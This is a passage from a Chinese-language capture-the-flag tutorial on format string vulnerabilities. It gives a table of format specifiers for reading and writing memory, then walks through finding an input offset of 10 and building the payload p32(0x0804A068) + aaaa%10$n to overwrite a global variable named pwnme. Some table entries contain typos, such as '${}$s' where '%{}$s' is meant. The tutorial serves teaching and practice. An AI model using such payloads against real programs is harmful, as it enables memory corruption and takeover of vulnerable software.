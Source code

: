 这里快速摘抄经典表格，参考实际用法使用即可。

```
32位

读
'%{}$x'.format(index)           // 读4个字节
'%{}$p'.format(index)           // 同上面
'${}$s'.format(index)

写
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节

64位

读
'%{}$x'.format(index, num)      // 读4个字节
'%{}$lx'.format(index, num)     // 读8个字节
'%{}$p'.format(index)           // 读8个字节
'${}$s'.format(index)

写
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节

%1$lx: RSI
%2$lx: RDX
%3$lx: RCX
%4$lx: R8
%5$lx: R9
%6$lx: 栈上的第一个QWORD
```

言归正传，那么首先我们需要知道输入的偏移量。

通过输入 `aaaa-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x`，`aaaa` 是我们输入的一般字符，`%x` 的意思是输出该位置的十六进制数

![](https://vip1.loli.net/2019/12/27/CIPctdHXfJbmrga.png)

根据程序输出，我们可以知道偏移量为 10 的地址上存储了我们所输入的信息，将来就把内存地址放在这个位置即可。

接下来我们来找 pwnme 在内存中的位置，由于没有开启 PIE ，因此内存地址不会变化的，在 IDA 中双击 `pwnme` 这个变量即可。

![](https://vip1.loli.net/2019/12/27/G9lnxiodye8qDH4.png)

可以知道 pwnme 在内存中的地址为 `0x0804A068`

因此，我们可以构造出我们这次格式化漏洞的攻击代码：`p32(0x0804A068) + aaaa%10$n`

这样我们就把 0x0804A068 设置成了 8
